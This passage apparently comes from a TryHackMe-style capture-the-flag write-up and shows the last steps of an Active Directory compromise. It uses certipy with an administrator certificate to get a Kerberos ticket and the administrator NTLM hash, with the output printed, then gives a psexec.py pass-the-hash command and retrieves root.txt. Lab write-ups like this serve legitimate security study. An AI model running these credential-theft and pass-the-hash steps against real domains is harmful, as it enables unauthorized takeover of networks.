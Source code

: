 + Using `certipy` to authenticate as `Administrator` and retrieve the NTLM hash:
```bash
$ certipy-ad auth -pfx administrator.pfx -dc-ip <IP>
Certipy v5.0.2 - by Oliver Lyak (ly4k)

[*] Certificate identities:
[*]     SAN UPN: 'ADMINISTRATOR@thm.local'
[*] Using principal: 'administrator@thm.local'
[*] Trying to get TGT...
[*] Got TGT
[*] Saving credential cache to 'administrator.ccache'
[*] Wrote credential cache to 'administrator.ccache'
[*] Trying to retrieve NT hash for 'administrator'
[*] Got hash for 'administrator@thm.local': aad3b435b51404eeaad3b435b51404ee:07d677a6cf40925beb80ad6428752322
```

+ Using impacket scripts `psexec.py` or `smbexec.py` enable testers to execute commands on target systems with pass-the-hash (NTLM):
```bash
$ sudo psexec.py -k -hashes 'LMhash:NThash' 'DOMAIN/USER@TARGET'
```

***Note: Using flag -k (Use Kerberos authentication) when authenticate Hashes. ***

![alt text](<Pasted image 20250828211544.png>)

+ Get the flag root.txt
![alt text](<Pasted image 20250828211614.png>)
-----